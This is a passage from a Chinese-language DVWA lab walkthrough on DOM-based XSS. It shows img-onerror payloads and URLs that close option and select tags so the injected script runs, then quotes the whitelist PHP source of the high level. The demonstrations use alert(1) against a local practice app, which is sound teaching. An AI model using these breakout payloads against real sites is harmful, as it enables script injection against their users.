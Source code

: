 ```
<img src=1 onerror=alert(1)>
```

*利用  img标签的onerror事件在加载图像的过程中如果发生了错误，就会触发onerror事件执行 JavaScript*

```
http://192.168.81.135/DVWA/vulnerabilities/xss_d/?default=<img src=1 onerror=alert(1)>
```

- 我们查看网页源代码，
- 发现我们的语句被插入到了value值中，
- 但是并没有插入到option标签的值中，
- 所以img标签并没有发起任何作用

![image-20211223150315244](https://gitee.com/xxb667/img/raw/master/img/image-20211223150315244.png)

我们闭合<option> 标签

```
http://192.168.81.135/DVWA/vulnerabilities/xss_d/?default=</option><img src=1 onerror=alert(1)>
```

还是没有成功，我们发现最外层还有个select 标签

![image-20211223150340031](https://gitee.com/xxb667/img/raw/master/img/image-20211223150340031.png)

于是我们继续构造语句去闭合select标签，这下我们的img标签就是独立的一条语句了

```
http://192.168.81.135/DVWA/vulnerabilities/xss_d/?default=</option></select><img src=1 onerror=alert(1)>
```

![image-20211223150402331](https://gitee.com/xxb667/img/raw/master/img/image-20211223150402331.png)

## XSS  DVWA  heigh级别

### DOM型XSS

源码分析：

```
<?php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}
?>
```
